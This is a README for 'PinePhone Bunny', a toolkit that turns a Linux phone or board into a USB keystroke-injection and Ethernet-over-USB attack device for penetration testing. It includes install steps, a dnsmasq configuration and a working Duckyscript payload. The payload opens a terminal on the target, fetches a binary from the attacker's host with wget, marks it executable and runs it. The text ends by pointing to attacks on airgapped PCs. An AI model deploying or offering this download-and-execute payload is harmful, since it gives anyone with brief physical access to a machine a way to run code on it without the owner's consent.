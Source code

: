 # PineBunny

# An attempt to implement something similar to what a Bash Bunny does on the PinePhone (Pro)

This is a recollection of scripts to enable the virtual /dev/hidg0 device on USBGadget enabled kernels and perform keystroke injection attacks emulating a keyboard. This tool is mostly useful in penetration testing assesments and engagements and the ideal devices to use this with would be any kind of Raspberry Pi model/any single board linux computer for that matter, and the PinePhone (Pro) or any other linux phone with a compatible kernel.
Even though those devices are the best ones to use, the tool should work on any device as long as it has USBGadget enabled.


# ¿How to check if my kernel is compatible?

To see if your kernel was compiled with USBGadget enabled, you can typically check the file "/proc/config.gz" to see your current kernel configuration.
Do `gunzip -c /proc/config.gz | grep CONFIG_USB_GADGET=` and check if it ends in `y`. If not you'll have to recompile the kernel yourself and enable it; which is beyond the scope of this repository.


# Installation

To install the scripts clone the repository first and cd into it, and then simply compile usleep and hid-gadget-test:
`gcc -o hid-gadget-test.c hid-gadget-test`
`gcc -o usleep.c usleep`
Then, you can simply remove the .c files and copy the binaries to /usr/bin.
Keep in mind you'll need a different 'badusb' binary for each keyboard layout, so copy the one for your keyboard like so:
`sudo cp badusb-[YOUR_LAYOUT] /usr/bin/badusb`

Only en_US and es_ES are supported right now, I'll work on more layouts when I get the time.


# Usage

The badusb script uses conventional Duckyscript, and its usage is:

`sudo usbarsenal` (you need to enable /dev/hidg0 first, tho usbarsenal also has options for enabling the ecm module of USB Gadget and Mass Storage, so you'll have ethernet over USB, too. Just keep in mind that your target won't get an IP address automatically assigned without a proper dhcp server running. I personally like to use dnsmasq)
`sudo badusb duckypayload.txt`


# Example payload using HID + Ethernet

`usbarsenal` can enable Ethernet over USB, and that can be used for different kinds of attack. The only thing you have to keep in mind is that you need to manually assign an IP address to the usb0 interface, as well as a netmask and you also need a proper dhcp and dns server (like dnsmasq) so that the target machine gets assigned an IP address automatically.

Let's say we have a file we want the target to download and execute, a file hosted on the PinePhone itself (like `python -m http.server` for example).
We'll need to prepare the usb0 interface and a dhcp server so the computer gets an IP assigned: `sudo usbarsenal`, `sudo ifconfig usb0 up 10.0.0.1 netmask 255.255.255.0`. Then, the dhcp server with this `dnsmasq.conf` configuration:

```
interface=usb0
dhcp-range=10.0.0.2, 10.0.0.30, 255.255.255.0, 12h
dhcp-option=3, 10.0.0.1
dhcp-option=6, 10.0.0.1 
server=8.8.8.8
log-queries
log-dhcp 
listen-address=127.0.0.1
```
`sudo dnsmasq -C dnsmasq.conf -d` We leave that running and we also leave the web server running: `python -m http.server`. Now it should work. Our example payload file looks like this, and it is aimed at a regular linux desktop:

```
DELAY 2000
ALT F2
DELAY 500
STRING xfce4-terminal
ENTER
DELAY 1000
STRING wget http://10.0.0.1:8000/hello
ENTER
DELAY 400
STRING chmod +x ./hello
ENTER
DELAY 100
STRING ./hello
ENTER
```
`sudo badusb payload.txt`

Remember, ethernet over USB can give you physical network access to a computer, which means you could hack an airgapped PC too!
Moreover, you are not forced to use a Duckyscript payload, you could just ignore that and launch a nmap scan physically connected over USB!
The options are endless...
